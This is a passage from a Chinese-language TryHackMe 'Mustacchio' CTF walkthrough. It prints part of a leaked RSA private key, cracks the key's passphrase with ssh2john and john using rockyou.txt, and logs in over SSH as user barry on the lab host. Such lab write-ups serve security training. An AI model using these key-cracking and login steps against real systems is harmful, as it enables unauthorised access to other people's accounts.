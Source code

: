 jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```

我们把上面的秘钥在kali上保存成一个id_rsa文件，赋权600
此秘钥还不能正常登陆，需要用john破解秘钥密码：

```
┌──(root💀kali)-[~/tryhackme/Mustacchio]
└─# /usr/share/john/ssh2john.py id_rsa >rsacrack
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/tryhackme/Mustacchio]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt rsacrack 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (id_rsa)
1g 0:00:00:23 37.67% (ETA: 02:48:42) 0.04221g/s 233721p/s 233721c/s 233721C/s mikkedhaile..mikkal1933
Session aborted
```

得到密码：```urieljames```

# 拿到初始shell

成功登录到barry的ssh，拿到user.txt

```
┌──(root💀kali)-[~/tryhackme/Mustacchio]
└─# ssh -i id_rsa barry@10.10.7.89                                                                                                                                                                                                   1 ⨯
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)
